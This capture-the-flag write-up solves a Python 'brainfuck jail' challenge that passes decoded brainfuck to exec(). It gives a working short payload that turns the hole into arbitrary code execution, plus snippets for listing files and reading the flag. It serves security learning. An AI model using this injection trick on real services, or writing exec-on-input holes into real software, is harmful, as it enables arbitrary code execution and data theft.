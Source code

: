 ### bf jail [127]
`**author: dfoo**`
**Jail but with my best friend? That doesn’t sound too bad. Oh wait…**
`**nc chal.wwctf.com 6002**`
and we had a `**chall.py**` file with it which had:

```python
#!/usr/bin/env python3
import sys


def bf(code):
    output = ""
    s = []
    matches = {}
    tape = [0] * 1000000
    for i, j in enumerate(code):
        if j == "[":
            s.append(i)
        if j == "]":
            m = s.pop()
            matches[m] = i
            matches[i] = m
    cp = 0
    p = 0
    while cp < len(code):
        if code[cp] == "+":
            tape[p] = (tape[p] + 1) % 256
        if code[cp] == "-":
            tape[p] = (tape[p] - 1) % 256
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
        if code[cp] == ".":
            output += chr(tape[p])
        if code[cp] == "<":
            p -= 1
        if code[cp] == ">":
            p += 1
        if code[cp] == "[":
            if not tape[p]:
                cp = matches[cp]
        if code[cp] == "]":
            if tape[p]:
                cp = matches[cp]
        cp += 1

    return output


if __name__ == "__main__":
    code = input("> ")
    if len(code) > 200:
        print("200 chars max")
        sys.exit(0)
    if not all(c in set("+-<>[],.") for c in code):
        print("nope")
        exit(0)
    code = bf(code)
    exec(code)
```

Reading the code, we can understand that the challenge is letting the user inject some python code, but here is the tricky part, it need to be written with the brainfuck interpretation.

What you would like to do here is to simply list all the files and then read the file that has the flag. **BUT**, the author added a 200 chars max limit. and anything like:
```python
import os; print(os.listdir())
```
or:
```python
print(open("flag.txt").read())
```
Would exceed the 200 chars limit when written in Brainfuck

Going back to code, we can see that the author is calling a function called `**exec()**` to execute his code, so the trick here is we want to use that to open a window where we can push our code then **`exec()`** it too.

and here is what I tried:
```python
exec(input())
```
which is :
```brainfuck
--[----->+<]>-.[--->+<]>+.-[->+++<]>.--.[->+++<]>-.-----[->+++<]>.+++++.++.+++++.-.+[--->+<]>+.+..>++++++++++.
```
in Brainfuck and it is less then 200 chars (110).

and injecting that gave me an input window where i can simply put any code I want:
![[Pasted image 20250728212010.png]]
so, I just completed simply with:
![[Pasted image 20250728212100.png]]
